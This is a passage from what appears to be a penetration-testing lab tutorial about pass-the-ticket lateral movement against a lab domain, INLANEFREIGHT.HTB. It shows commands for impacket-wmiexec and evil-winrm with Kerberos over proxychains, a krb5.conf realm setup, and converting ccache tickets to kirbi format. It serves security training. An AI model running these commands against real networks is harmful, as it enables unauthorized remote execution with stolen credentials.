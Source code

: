 #### Using Impacket with proxychains and Kerberos Authentication

```shell-session
proxychains impacket-wmiexec dc01 -k
```

### Evil-Winrm

#### Installing Kerberos Authentication Package

```shell-session
sudo apt-get install krb5-user -y
```

#### Default Kerberos Version 5 realm

#### Default Kerberos Version 5 realm

#### Kerberos Configuration File for INLANEFREIGHT.HTB

```shell-session
cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```


#### Using Evil-WinRM with Kerberos

```shell-session
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## Miscellaneous

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them

#### Impacket Ticket Converter

```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
